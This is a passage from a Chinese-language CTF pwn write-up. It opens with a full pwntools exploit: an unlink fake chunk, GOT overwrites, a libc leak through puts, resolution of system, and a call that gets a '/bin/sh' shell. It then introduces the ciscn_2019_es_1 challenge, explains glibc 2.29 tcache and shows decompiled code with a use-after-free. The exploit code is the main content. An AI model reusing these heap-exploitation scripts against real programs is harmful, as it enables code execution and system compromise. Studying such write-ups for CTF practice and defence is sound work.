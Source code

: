 ```

array = 0x602148

add(0x10) # 1
add(0x30) # 2
add(0x80) # 3
add(0x20) # 4

fake_chunk = p64(0) + p64(0x30) + p64(array + 8 - 0x18)
fake_chunk += p64(array + 8 - 0x10) + 'a' * 0x10 + p64(0x30) + p64(0x90)
edit(2, len(fake_chunk), fake_chunk)
delete(3)
io.recvuntil('OK')

payload = 'a' * 8 + p64(free_got) + p64(puts_got) + p64(atoi_got)
edit(2, len(payload), payload)

edit(0, len(p64(puts_plt)), p64(puts_plt))
# gdb.attach(io, 'b *0x400c85')
delete(1)

io.recvuntil('\n')
puts_addr = u64(io.recv(6).ljust(8,'\x00'))
print(hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)
libc_base = puts_addr - libc.dump('puts')
system = libc_base + libc.dump('system')

edit(2, 8, p64(system))
io.sendline('/bin/sh')

io.interactive()
```



## 0x0c ciscn_2019_es_1

这题环境是Ubuntu18，libc的版本是2.29，相比2.23多了一个tcache机制，用于链接空闲的 chunk 结构体，其中的 next 指针指向下一个大小相同的 chunk，具体可见 ctfwiki。

> <p>tcache 是 glibc 2.26 (ubuntu 17.10) 之后引入的一种技术，目的是提升堆管理的性能。但提升性能的同时舍弃了很多安全检查<br>
————ctfwiki</p>

本题的漏洞在 `call()` 函数中，也就是对chunk进行删除的函数，在进行free后并没有对chunk进行置零处理，也没有修改数组中的值，明显的UAF漏洞。

```
unsigned __int64 call()
`{`
  int v1; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Please input the index:");
  __isoc99_scanf("%d", &amp;v1);
  if ( (&amp;heap_addr)[v1] )
    free(*(void **)(&amp;heap_addr)[v1]);
  puts("You try it!");
  puts("Done");
  return __readfsqword(0x28u) ^ v2;
`}`
```
